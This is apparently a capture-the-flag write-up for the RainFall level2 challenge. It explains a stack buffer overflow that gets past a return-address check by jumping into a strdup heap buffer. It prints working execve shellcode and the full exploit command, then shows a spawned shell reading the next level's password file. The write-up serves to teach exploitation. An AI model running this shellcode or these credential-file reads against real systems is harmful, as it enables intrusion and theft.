 in this we have a simple buffer overflow but with a twist.

if we look at the disassembly of our binary, we can see that our program does rather something interesting with the return address of the `p` function:
```x86asm
   0x080484f2 <+30>:	mov    eax,DWORD PTR [ebp+0x4]
   0x080484f5 <+33>:	mov    DWORD PTR [ebp-0xc],eax
   0x080484f8 <+36>:	mov    eax,DWORD PTR [ebp-0xc]
   0x080484fb <+39>:	and    eax,0xb0000000
   0x08048500 <+44>:	cmp    eax,0xb0000000
   0x08048505 <+49>:	jne    0x8048527 <p+83>
```

as we can see it perform a bitwise and with the value `0xb0000000`, and based on that comparison decides where to jump.

since NX is disabled we can execute code from the stack but since the address of the buffer is `0xbffff6dc`:

```x86asm
(gdb) x $ebp-0x4c
0xbffff6dc:	0x00000001
```

it will fail the check if we overwrite the return address with that buffer address and exit the program before we return.

but there is the address of the string returned from `strdup` function wich passes the condtion:
```x86asm
(gdb) x $eax
0x804a008:	0x38307830
(gdb) x/s $eax
0x804a008:	 "0x08080808"
```

we can see that the address `0x0804a008` passes the condition.

now all we need to do is to get a shellcode to inject and use the `strdup` buffer to pass the condition 


```bash
(python -c 'print "\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1\x51\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80" + (76 - 44) * "A" + "BBBB" + "\x08\x04\xa0\x08"[::-1]'; cat) | ./level2
```

`\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1\x51\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80` is the shellcode

`76` is the offset to the saved `ebp` and `44` is the size of the shellcode and "BBBB" is used to reach the return address.

```bash
level2@RainFall:~$ (python -c 'print "\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1\x51\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80" + (76 - 44) * "A" + "BBBB" + "\x08\x04\xa0\x08"[::-1]'; cat) | ./level2
jhh///sh/bin��h�4$ri1�QjY�Q��1�j
                                X̀AAAAAAAAAAAAAAAAAAAAAAAAAAABBB�
pwd  
/home/user/level2
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

and there you go.